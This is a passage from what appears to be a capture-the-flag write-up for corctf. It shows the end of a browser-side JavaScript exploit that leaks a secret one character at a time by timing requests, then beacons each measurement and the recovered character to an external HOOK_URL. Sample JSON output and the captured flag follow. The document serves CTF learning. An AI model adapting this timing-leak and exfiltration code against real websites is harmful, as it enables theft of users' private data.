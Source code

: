 ```javascript

  let minT = 100000000;
  let minC;
  for (let i = START_I; i < CHARS.length; i++) {
    const c = CHARS[i];
    const t = await leakOne(TARGET_IDS[i]);
    if (t < minT) {
      minT = t;
      minC = c;
    }
    navigator.sendBeacon(
      HOOK_URL,
      JSON.stringify({ START_I, i, c, t, minC, minT })
    );
    await sleep(1500);
  }
  return minC;
};

const main = async () => {
  const nextC = await leak();
  navigator.sendBeacon(HOOK_URL + "/leak", nextC);
};
main();
```

Then, I got:
```json
{
  "START_I": 0,
  "i": 9,
  "c": "i",
  "t": 469.5333333313465,
  "minC": "d",
  "minT": 72.13333333283663
}
```
The next character is `d`.

## Flag

```
corctf{leakrgod}
```
